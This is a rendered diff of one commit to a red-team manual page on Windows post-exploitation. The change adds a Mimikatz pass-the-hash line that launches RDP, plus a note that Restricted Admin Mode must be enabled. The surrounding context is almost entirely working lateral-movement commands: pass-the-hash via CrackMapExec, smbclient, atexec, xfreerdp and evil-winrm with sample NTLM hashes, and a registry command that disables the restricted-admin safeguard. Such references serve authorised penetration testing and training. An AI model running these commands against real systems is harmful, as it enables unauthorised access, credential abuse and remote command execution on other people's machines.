

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 3. Privesc & Post-Exploit/4a. Windows Specifics.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/3. Privesc & Post-Exploit/4a. Windows Specifics.md
+++ b/3. Privesc & Post-Exploit/4a. Windows Specifics.md
@@ -30,8 +30,9 @@
             *CrackMapExec:  crackmapexec smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79 -d domain.local [-x ipconfig]  \\  sudo crackmapexec ldap 10.11.1.120/29 -u daisy -H f6084ca1a4905c45747d4bdcc1fcab84
             SMBClient:  smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local  \\  python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
             ATExec:  python3 atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 cmd.exe
-        Port 3389 (Windows 2012 R2, 8.1):
+        Port 3389 (Windows 2012 R2, 8.1): Restricted Admin Mode needs to be enabled (https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
             xfreerdp /u:offsec /d:win2012 /pth:2892d26cdf84d7a70e2eb3b9f05c425e /v:192.168.2.102
+            Mimikatz/Mstsc:  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
             Might need to enable first:  crackmapexec smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
         Port 5985/5986:
             ruby evil-winrm.rb -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
```
